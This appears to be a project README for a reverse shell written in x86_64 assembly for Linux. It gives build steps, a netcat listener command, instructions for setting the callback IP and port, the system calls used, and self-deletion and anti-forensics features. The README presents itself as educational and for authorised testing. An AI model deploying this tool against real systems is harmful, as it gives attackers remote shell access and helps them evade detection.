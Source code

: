 # reverse_shell_on_asm
# Reverse Shell in x86_64 Assembly

A lightweight reverse shell written entirely in x86_64 Assembly for Linux systems. Created for educational purposes and authorized penetration testing.

## 🚀 Features

- **Pure x86_64 Assembly** - No external dependencies
- **TCP Reverse Shell** - Connects back to attacker machine
- **Stream Redirection** - stdin, stdout, stderr redirected to socket
- **Self-Destruct Mechanism** - Automatically removes itself on disconnect
- **Anti-Forensics** - Register wiping and trace cleaning
- **Small Footprint** - Optimized for minimal size
- **Firewall Evasion Ready** - Easy to modify for IP/port rotation

## 📁 Project Structure


text

## 🔧 Building

### Prerequisites
- NASM (Netwide Assembler)
- Linux x86_64 system

### Compilation
```bash
make
Or manually:

bash
nasm -f elf64 my_reverse_shell.asm
ld -o reverse_shell my_reverse_shell.o
🎯 Usage
Start listener on attacker machine:

bash
nc -lvnp 4444
Execute shell on target machine:

bash
./my_reverse_shell
Interactive shell will be available in your netcat session.



⚙️ Configuration
Modify IP and Port
Edit my_reverse_shell.asm:

asm
; Change IP (network byte order)
dd 0x7F000001    ; 127.0.0.1 -> replace with target IP

; Change port (network byte order)  
dw 0x5C11        ; 4444 -> replace with target port
Network Byte Order Examples
IP 192.168.1.1 = 0x0101A8C0

Port 1337 = 0x3905



🛡️ Technical Details
System Calls Used
sys_socket (41) - Create socket

sys_connect (42) - Connect to remote host

sys_dup2 (33) - Redirect file descriptors

sys_execve (59) - Execute /bin/bash

sys_unlink (87) - Self-destruct

sys_exit (60) - Clean exit

Anti-Forensics Features
Complete register wiping before exit

Automatic file deletion on disconnect

No environment variables passed to execve

Minimal system trace left behind



⚠️ Disclaimer
FOR EDUCATIONAL AND AUTHORIZED TESTING PURPOSES ONLY

Use only on systems you own or have explicit permission to test

The author is not responsible for any misuse of this code

Ensure compliance with local laws and regulations

Intended for security research and education



🎓 Educational Value
This project demonstrates:

Low-level system programming in Assembly

Linux system call interface

Network programming fundamentals

Process manipulation and stream redirection

Anti-forensics techniques

Shellcode development principles

🤝 Contributing
Contributions are welcome! Feel free to:

Report bugs and issues

Suggest new features

Submit pull requests with improvements

Share your modifications and optimizations

📜 License
This project is open source. Use responsibly and ethically.

